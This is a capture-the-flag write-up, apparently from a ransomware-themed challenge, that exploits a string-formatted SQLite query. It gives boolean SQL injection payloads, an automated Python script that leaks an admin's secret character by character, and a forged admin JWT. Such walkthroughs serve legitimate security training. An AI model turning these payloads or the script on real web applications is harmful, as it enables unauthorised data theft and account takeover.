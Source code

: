 # Task 7

Prompt:
![](../img/prompts/task_7.png)

Our goal here is to get an admin JWT. Here's our current JWT again:

```
{
  "typ": "JWT",
  "alg": "HS256"
}
{
  "iat": 1662503990,
  "exp": 1665095990,
  "uid": 36828,
  "sec": "m5ehCyJiYpRRSI2DMQWhNM1jIIE1HiuW"
}
```

All of the fields are standard except for the `uid` and `sec` fields. We can find out what those fields mean from the `util.py` file from the server's files:
```py
def validate_token(token):
	try:	
		claims = jwt.decode(token, hmac_key(), algorithms=['HS256'])
	except:
		# Either invalid format, expired, or wrong key
		return False
	with userdb() as con:
		row = con.execute('SELECT secret FROM Accounts WHERE uid = ?', (claims['uid'],)).fetchone()
		if row is None:
			return False
		return row[0] == claims['sec']
```

So the `uid` is the unique identifier given to an account and the `sec` field is some secret value given to an account. Good to know.

Just out of curiosity, what happens when we try to view the admin page?

![](../img/7/admin_page_denied.png)

Great... Well, it was worth a shot.

If we go to the `Admin List` page, we can see the admins for the website. It seems as if `NiceOttoman` is the only online admin:

![](../img/7/admin_list.png)

That's our target. Let's try to figure out `NiceOttoman`'s `uid` and `secret`.

---

Since we unfortunately don't have direct access to these databases, we have to find another way. Looking at the source code, it seems like our input gets used in a few SQL queries into the databases. Maybe we can try some form for SQL injection to leak the admin's secret. First, we need to figure out the admin's `uid` value before starting to go after the secret.

Most of the SQL queries that take in our input are using prepared queries, so that negates our chances of injection. Fortunately, it seems as if there's one query that does NOT use prepared statements, making it vulnerable. Let's target that one.

Here's the vulnerable code (injection can happen in `infoquery`):
```py
def userinfo():
	""" Create a page that displays information about a user """			
	query = request.values.get('user')
	if query == None:
		query =  util.get_username()	
	userName = memberSince = clientsHelped = hackersHelped = contributed = ''
	with util.userdb() as con:	
		infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query
		row = con.execute(infoquery).fetchone()	
		if row != None:
			userName = query
			memberSince = int(row[0])
			clientsHelped = int(row[1])
			hackersHelped = int(row[2])
			contributed = int(row[3])
	if memberSince != '':
		memberSince = datetime.utcfromtimestamp(int(memberSince)).strftime('%Y-%m-%d')
	resp = make_response(render_template('userinfo.html', 
		userName=userName,
		memberSince=memberSince, 
		clientsHelped=clientsHelped,
		hackersHelped=hackersHelped, 
		contributed=contributed,
		pathkey=expected_pathkey()))
	return resp
```

It seems as if it happens on the `userinfo` page. If we access it normally, we see this:

![](../img/7/main_user_info.png)

It seems as if the code allows us to send a custom user through a GET request parameter under the `user` variable. If we send in garbage(`?user=asdfasdf`), we get this:

![](../img/7/userinfo_garbage.png)

The values went away. This would happen because the SQL query couldn't find the user `asdfasdf`. Maybe we can use this output mechanism to our advantage.

Since the code is using sqlite3, we can add a comment at the end of the statement by adding a "--" to the end. Looking at the SQL statement itself, we can send statements like

`NiceOttoman' AND u.uid==<uid>--`

and brute force the `uid` value this way. If we get values in the 4 boxes back, then we know we've got the correct value!

Using a binary search, we can optimize the time taken with this approach and figure out that `NiceOttoman`'s uid is `45863`:

![](../img/7/userinfo_uid.png)

With that, now we need to figure out the secret. We can use a similar injection to start leaking the secret key. The issue is that it's long, so we have to be smart in figuring this out. I decided to brute force the secret one letter at a time. We can access the username's secret by using `a.secret`. We can iterate over each letter by using `SUBSTR(a.secret, 2, 1)`. This gets the second character of `a.secret`. We can go over all the alphanumeric values and test them against the actual secret to see if they are right. To slightly improve the speed, I checked LOWER(SUBSTR(a.secret, \<idx>, 1)) against only the lowercase values, and then did an additional check for the case of the letter. With that, we can go ahead and start testing with the injection:

`NiceOttoman' AND LOWER(SUBSTR(a.secret, \<idx>, 1))=='\<letter>'--`

Because the secret is long, I decided to automate this:

```py
import requests

UID = 45863

example_secret = "m5ehCyJiYpRRSI2DMQWhNM1jIIE1HiuW"

alphabet = 'abcdefghijklmnopqrstuvwxyz'
numbers = '0123456789'
all_chars = alphabet + numbers

full_secret = ""
url = "https://clloahayjtqaztvg.ransommethis.net/mhqtyrypxgtseywu/userinfo?user="
s = requests.Session()

for i in range(1, len(example_secret)+1):
    for char in all_chars:
        injection = f"NiceOttoman%27%20AND%20LOWER(SUBSTR(a.secret,%20{i},%201))==%27{char}%27--"
        next_url = url + injection
        res = s.get(next_url, cookies={'tok': 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjI1MDM5OTAsImV4cCI6MTY2NTA5NTk5MCwidWlkIjozNjgyOCwic2VjIjoibTVlaEN5SmlZcFJSU0kyRE1RV2hOTTFqSUlFMUhpdVcifQ.sYtPx-nuiRySL9hJi85P0MuP1_q3YMSbUXmcICxzn1M'})

        if res.text.split("Users Helped:")[1].split("</p>")[0].split("<p>")[1].strip() != "":
            if char in alphabet:
                injection = f"NiceOttoman%27%20AND%20SUBSTR(a.secret,%20{i},%201)==%27{char}%27--"
                next_url = url + injection
                res = s.get(next_url, cookies={'tok': 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjI1MDM5OTAsImV4cCI6MTY2NTA5NTk5MCwidWlkIjozNjgyOCwic2VjIjoibTVlaEN5SmlZcFJSU0kyRE1RV2hOTTFqSUlFMUhpdVcifQ.sYtPx-nuiRySL9hJi85P0MuP1_q3YMSbUXmcICxzn1M'})
                if res.text.split("Users Helped:")[1].split("</p>")[0].split("<p>")[1].strip() != "":
                    full_secret += char
                else:
                    full_secret += char.upper()
            else:
                full_secret += char

            print(f"Found next char: {full_secret[-1]}")
            break
print(f"Final secret: {full_secret}")
```

Running this against the website, we get our secret:

![](../img/7/brute.png)

We can now forge our JWT cookie in the same manner as in task 6 but using the admin's `uid` and `secret` to get us this value: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTM1NzgxMjcsImV4cCI6MjY2NjE3MDEyNywic2VjIjoiY1pkT1djY2h3YUN4UjlVd1dxMjdiQUxNUElNazZUc3kiLCJ1aWQiOjQ1ODYzfQ.vLCLBnaymKj-HldlU21Q9lgpPeyyJ5IuuHjUIWO_8Qg`

```
{
  "typ": "JWT",
  "alg": "HS256"
}
{
  "iat": 1653578127,
  "exp": 2666170127,
  "sec": "cZdOWcchwaCxR9UwWq27bALMPIMk6Tsy",
  "uid": 45863
}
```

We can now click on the admin page and view its contents!

![](../img/7/admin_page.png)

We can submit the JWT cookie and continue to the next task!

Flag: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTM1NzgxMjcsImV4cCI6MjY2NjE3MDEyNywic2VjIjoiY1pkT1djY2h3YUN4UjlVd1dxMjdiQUxNUElNazZUc3kiLCJ1aWQiOjQ1ODYzfQ.vLCLBnaymKj-HldlU21Q9lgpPeyyJ5IuuHjUIWO_8Qg`
![](../img/submissions/task_7_solve.png)